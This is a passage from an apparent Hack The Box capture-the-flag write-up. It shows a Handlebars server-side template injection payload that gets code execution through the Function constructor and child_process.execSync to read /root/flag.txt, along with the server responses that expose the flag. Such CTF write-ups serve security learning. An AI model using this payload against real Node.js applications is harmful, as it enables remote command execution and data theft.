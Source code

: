 
- The returns the response:

```
</div>
  <p class="result">
    We will contact you at: e
    2
    [object Object]
    function Function() { [native code] }
    2
    [object Object]
    Backend
    flag.txt
    snap
  </p>
</div>
```

- Now use the same code to `cat` the flag:

```
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return process.mainModule.require('child_process').execSync('cat /root/flag.txt');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```

- Response:

```
<p class="result">
  We will contact you at: e
  2
  [object Object]
  function Function() { [native code] }
  2
  [object Object]
  6b258d726d287462d60c103d0142a81c            #  <<-- flag.txt
</p>
```

## Pwned
https://www.hackthebox.com/achievement/machine/172151/449
